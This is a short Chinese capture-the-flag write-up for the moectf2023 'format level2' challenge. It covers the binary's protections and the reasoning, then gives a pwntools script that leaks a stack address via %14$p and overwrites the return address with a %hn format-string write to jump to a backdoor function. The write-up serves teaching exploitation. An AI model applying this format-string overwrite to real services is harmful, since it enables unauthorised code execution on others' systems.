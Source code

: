 ```yaml
---
title: moectf2023 - format level2
date: 2023/9/26 12:00:00
tags:
    - noob
excerpt: 利用格式字符串漏洞，通过写入返回地址跳转到后门函数获取flag。
---
```


## 文件分析

下载`format_level2`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

这次打龙不能拿到flag了，但是后门函数还在，可以考虑通过写入返回地址，
跳转到后门函数处输出flag

前置知识：  
%n -> `int_32 *`; %hn -> `int_16 *`; %hhn -> `int_8 *`  
%n只能修改输入的字符串中存在的值  
可以通过%??d来控制已打印字符的数量

查看源代码，发现后门函数地址和返回地址差2个字节，可以采用%hn  
首先talk，找到返回地址，然后再talk，将后门函数写到返回地址里实现攻击

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 42673)

# payload 1
sh.sendline(b'3') # talk with dragon
sh.sendline(b'%14$p') # leak rbp value to get ret after shifting

ret = int(sh.recvuntil(b'\nBut', True)[-10:], 16) - 0x68 + 0x4c # ignore '\nBut' to get pure addr, and shift addr to ret

# payload 2
sh.sendline(b'3') # talk with dragon
sh.sendline(p32(ret) + b'%37651d%7$hn') # ret占4，0x9317 == 37651 + 4

sh.interactive()
```

Done.
